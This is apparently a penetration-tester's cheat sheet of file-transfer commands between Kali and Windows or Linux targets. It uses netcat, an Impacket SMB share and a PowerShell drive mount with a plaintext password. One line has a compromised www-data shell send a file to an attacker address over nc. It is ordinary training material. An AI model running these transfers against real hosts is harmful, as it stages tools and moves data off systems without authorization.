 # File transfer from Kali to Windows using netcat
(Sender) Kali ====> Windows (Receiver) 
``` 
nc.exe -nlvp 443 > C:\binary.exe 
``` 
``` 
nc -w 3 <Windows IP> 443 < binary.exe 
``` 

## File transfer from Linux to Kali

```
root@kali:~# nc -nvlp 5555 > filename

www-data@machine:/usr/local/bin$ nc 10.10.X.X 5555 < filename
```

## SMB Mount folder creation and transfer between Kali & Windows using Impacket SMB Module

Create SMB Share folder on Kali
```
sudo impacket-smbserver <SharefolderName> $(pwd) -smb2support -user <username> -password <password>
[sudo] password for kali: 
Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Create powershell script and mount SMB folder
```
$pass = convertto-securestring 'Password123' -AsPlainText -Force 
$cred = New-Object System.Management.Automation.PSCredential('vallikkv', $pass)
New-PSDrive -Name vallikkvshare -PSProvider FileSystem -Credential $cred -Root \\<Kali ip>

```

